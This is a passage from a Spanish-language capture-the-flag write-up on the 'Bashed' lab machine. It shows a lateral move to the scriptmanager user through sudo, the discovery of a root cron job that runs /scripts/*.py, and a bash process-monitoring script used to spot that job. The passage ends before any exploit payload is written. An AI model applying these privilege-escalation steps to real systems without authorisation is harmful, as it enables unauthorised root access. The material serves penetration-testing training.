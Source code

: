 ```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ whoami
scriptmanager
```

## ESCALADA DE PRIVILEGIOS ROOT

Necesitamos tener acceso al usuario `root`, así que realizamos una enumeración de directorios y podemos identificar un archivo `test.py`, el cual, pretende ejecutar una acción y obtiene como salida un `txt` con permisos de administración.

```bash
dscriptmanager@bashed:/$ cd scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jul 23 13:20 test.txt
```

## PROCMON.SH

Para esta ocasión vamos a hacer uso de un script enumerador de procesos que denominaremos `procmon.sh`, esto  con la finalidad de monitorear los comandos que son ejecutados en tiempo real por la máquina, para esto ingresamos a la carpeta `/tmp` y creamos el siguiente script de monitoreo.

```bash
cd /tmp

nano procmon.sh

#!/bin/bash
old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon | command | kworker"
        old_process=$new_process
done
```

Damos permisos de ejecución a nuestro archivo y procedemos a ver en el output que se está ejecutando `test-py` periódicamente.

```bash
chmod +x procmon.sh

> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> python test.py
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< python test.py
```
